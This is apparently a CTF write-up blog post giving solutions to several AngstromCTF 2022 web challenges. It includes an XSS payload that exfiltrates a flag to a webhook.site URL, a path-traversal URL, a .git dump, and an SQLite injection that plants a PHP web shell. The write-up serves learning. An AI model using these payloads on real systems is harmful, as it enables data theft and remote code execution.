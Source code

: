 ```yaml
---
title: AngstromCTF 2022
description: From AngstromCTF2022
author: to^
date: 2022-05-02 22:25:00 +0700
categories: [WebSec, CTF]
tags: [xss, sqli, rce]     # TAG names should always be lowercase
img_path: /assets/img/angstromctf2022
image:
 src: logo.jpg
 alt: AngstromCTF2022 logo
 width: 1000
 height: 400
---
```


My solution for some web challenges in this competition

## The Flash

Use DOM breakpoints in Chrome devtools, right click on `p` tag and chose `Break on -> subtree modifications` then step over to get flag

> **actf{sp33dy_l1ke_th3_fl4sh}**
{: .prompt-info  }

___

## Auth Skip

set cookie: `user=admin`

> **actf{passwordless_authentication_is_the_new_hip_thing}**
{: .prompt-info  }

___

## crumbs

exploit script:
```py
import requests
import re

TARGET = "https://crumbs.web.actf.co/"

s = requests.Session()
next = ""
for i in range(1002):
    r = s.get(TARGET + next)
    if i == 1001:
        print(r.text)
        break
    next = re.search(r"Go to (.*)", r.text).group(1)
    print(next)
```

> **actf{w4ke_up_to_th3_m0on_6bdc10d7c6d5}**
{: .prompt-info  }

___

## Xtra Salty Sardines

Pay attention to the flowing lines:
```js
const name = req.body.name
    .replace("&", "&amp;")
    .replace('"', "&quot;")
    .replace("'", "&apos;")
    .replace("<", "&lt;")
    .replace(">", "&gt;");
```
I abuse that:

> The `replace()` method returns a new string with some or all matches of a `pattern` replaced by a replacement. The `pattern` can be a string or a `RegExp`, and the replacement can be a string or a function called for each match. If pattern is a **string**, only the **first** occurrence will be replaced.
{: .prompt-tip  }

Payload:
```html
'<></h1><script>var x = new XMLHttpRequest;x = open('GET', '/flag'); x.onload = function() {navigator.sendBeacon('https://webhook.site/8771a7aa-4464-438a-84ac-7311eae5bd87', this.responseText)}; x.send();</script>
```

> **actf{those_sardines_are_yummy_yummy_in_my_tummy}**
{: .prompt-info  }


___

## School unblocker

Exploit script:

```js
const express = require('express')

const app = express();
const port = Number(process.env.PORT) || 8888;


app.post("/", (req, res) => {

    res.redirect(307, "http://127.0.0.1:8080/flag")

});

app.listen(port, () => {
    console.log(`Server listening on port ${port}`);
});
```

> **actf{dont_authenticate_via_ip_please}**
{: .prompt-info  }
___

## Art Gallery

LFI in `member` parameter.

> Noted that `/proc/1/cwd/` point to the current working directory in the docker container.
{: .prompt-tip  }

Send the following payload to fetch `Dockerfile`.

```
https://art-gallery.web.actf.co/gallery/?member=../../../../proc/1/cwd/Dockerfile
```

Dockerfile:
```docker
FROM node:17-bullseye-slim

WORKDIR /app
COPY . .
RUN mv git .git
RUN npm ci

ENV PORT=8080

EXPOSE 8080

CMD ["node", "index.js"]
```

The next step is to exploit the `.git` folder using [GitHacker](https://github.com/WangYihang/GitHacker).

After fetching all sources, use `git log` to check log commit.

```
┌─[nguyen@parrot]─[~/LearningSpace/test/result/ec42c41d9bc611be9e22c4092e4828d0]
└──╼ $git log
commit 1c584170fb33ae17a63e22456f19601efb1f23db (HEAD, origin/master, origin/HEAD, master)
Author: imposter <sus@aplet.me>
Date:   Tue Apr 26 21:47:45 2022 -0400

    bury secrets

commit 713a4aba8af38c9507ced6ea41f602b105ca4101
Author: imposter <sus@aplet.me>
Date:   Tue Apr 26 21:44:48 2022 -0400

    remove vital secrets

commit 56449caeb7973b88f20d67b4c343cbb895aa6bc7
Author: imposter <sus@aplet.me>
Date:   Tue Apr 26 21:44:01 2022 -0400

    add program
```

`git checkout` to check a commit.
```
─[✗]─[nguyen@parrot]─[~/LearningSpace/test/result/ec42c41d9bc611be9e22c4092e4828d0]
└──╼ $git checkout 56449caeb7973b88f20d67b4c343cbb895aa6bc7
Previous HEAD position was 1c58417 bury secrets
HEAD is now at 56449ca add program
┌─[nguyen@parrot]─[~/LearningSpace/test/result/ec42c41d9bc611be9e22c4092e4828d0]
└──╼ $ls
error.html  flag.txt  images  index.html  index.js  package.json  package-lock.json
┌─[nguyen@parrot]─[~/LearningSpace/test/result/ec42c41d9bc611be9e22c4092e4828d0]
└──╼ $cat flag.txt 
actf{lfi_me_alone_and_git_out_341n4kaf5u59v}
```

> **actf{lfi_me_alone_and_git_out_341n4kaf5u59v}**
{: .prompt-info  }
___

## Secure Vault

Create an account: `bla:bla` then save the `token` value (jwt of bla account) after that `Delete account`. Then set the cookie value with `token:<jwt token of bla account>` -> return flag.

The reason why it works is due to the following two lines in `index.js`:
```js
const user = users.get(res.locals.user.uid);
res.type("text/plain").send(user.restricted ? user.vault : flag);
```
if we send an old jwt, then `user={}` and `user.restricted=undefined` (because it has been already deleted from `UserStore`).

> **actf{is_this_what_uaf_is}**
{: .prompt-info  }

___

## NoFlags

Dockerfile:

```docker
FROM php:8.1.5-apache-bullseye

COPY printflag /printflag
RUN chmod 111 /printflag
COPY src /var/www/html


RUN chown -R root:root /var/www/html && chmod -R 555 /var/www/html        
RUN mkdir /var/www/html/abyss &&\
    chown -R root:root /var/www/html/abyss &&\
    chmod -R 333 abyss

EXPOSE 80
```
From this file, i figure out following things:
- `printflag` a file with only-executable permission that used to print flag
- `/var/www/html`: readable and executable permission
- `/var/www/html/abyss`: writable and executable permission

=> The target to achieve is RCE using sqlite injection.

Read more from [here](https://twosixtech.com/sqlite-as-a-shell-script/).

payload:

```
');ATTACH DATABASE '/var/www/html/abyss/exp.php' AS exp;CREATE TABLE exp.pwn (dataz text);INSERT INTO exp.pwn (dataz) VALUES ('<?system($_GET["cmd"]); ?>');--
```

Result:

![flag](NoFlags/flag.png)
_flag_

